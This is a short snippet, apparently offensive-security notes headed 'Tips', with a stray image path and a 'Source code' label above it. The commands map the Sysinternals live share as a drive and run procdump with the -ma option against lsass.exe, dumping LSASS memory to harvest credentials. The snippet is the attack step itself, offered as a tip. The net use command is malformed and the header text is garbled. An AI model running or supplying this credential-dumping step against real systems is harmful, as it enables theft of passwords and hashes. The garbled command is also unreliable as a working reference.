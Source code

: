# Tips

* Map SysInterals
net use Z: \\http://live.sysinternals.com \tools\ "/user:"
dir Z:
Z:\procdump -accepteula -ma lsass.exe lsassdmp


